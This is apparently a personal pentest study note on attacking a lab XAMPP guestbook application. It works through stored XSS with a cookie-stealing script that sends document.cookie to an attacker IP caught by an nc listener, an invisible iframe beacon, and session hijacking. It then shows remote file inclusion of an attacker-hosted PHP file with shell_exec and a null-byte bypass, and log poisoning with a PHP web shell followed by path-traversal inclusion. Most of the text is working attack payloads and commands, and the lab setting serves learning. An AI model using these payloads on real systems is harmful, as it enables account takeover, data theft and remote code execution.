 #Webapps

##Getting Started
1. Start XAMPP and apache/mysql

2. Navigate to the host in your webbrowser (should be a guestbook application)

## XSS
The sign in page isn't filtered and so you can submit javascript which will run when someone views your comment

In this case I posted `<script>alert("XSS");</script>` which when viewed simply pops up the message "XSS"

XSS can be leveraged to do many things but as an example...

1. Create a comment with an iframe pointing to your ip `<iframe src="http://yo.ur.ip.addr:81/report" width="0" height="0"></iframe>`

2. Setup a listener on your machine `nc -lvp 81` 

3. visit the site from a victims machine and you will see a connection, you can use this to exploit the browser, gather information or grab cookies

**Grabbing Cookies**

1. Submit a comment with the following JS `<script> new Image().src="http://10.11.0.74:81/bogus.php"+document.cookie; </script>`

2. Setup a listener on your machine `nc -lvp 81` 

3. Visit the page as an admin

3. You will see that the cookie has been appended to the url your listener picks up

4. We can steal this cookie and login as the user, edit cookies using your browsers console `document.cookie = "PHPSESSID=34015asdsad08f566d00635a6e8ae98"`

## Remote File Inclusions
1. Whilst testing the website we notice that the language dropdown on the signin page appears to grab data from a file

2. We can see this on examining the source code

   ```
   if (isset( $_GET['LANG'] )) { 
     $lang = $_GET['LANG'];
   } else { 
     $lang = 'en';
   }
   include( $lang . '.php' );
   ```

3. We can see the parameters in the URL so tweaking the lang param to our own file is trivial

   `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&LANG=fr&Submit=Submit`
   `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&LANG=http://10.11.0.74/evil.txt&Submit=Submit`

4. Create our evil file `echo '<?php echo shell_exec("ipconfig"); ?>' >> /var/www/evil.txt`

5. Start apache `service apache2 start`

6. When we navigate to the site we can see that the script appended `.php` onto the end of our request

7. We can get around this by using a null byte (which works in php <=5.3) and causes php to ignore everything after it

   `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&LANG=http://10.11.0.74/evil.txt%00&Submit=Submit`

8. Navigate again to the site and we get the output of the ipconfig command


**Notes**
Might be turned off in php.ini file look for `allow_url_fopen` and `allow_url_include`

##Local File Inclusion
Even with remote file includes turned off it's still possible to run local files and it may be possible to posion log files in order to run php of our choosing.

1. Connect to the webserver using nc `nc -nv 10.11.5.115 80` and paste `<?php echo shell_exec($_GET['cmd']); ?>`

2. Check the access log  on your victims machine to confirm you have posioned the log file 

3. We can now attempt to include the log by navigating to

    `http://10.11.5.115/addguestbook.php?name=hacker&comment=test&cmd=ipconfig&LANG=../../../../../../../xampp/apache/logs/access.log%00&Submit=Submit`
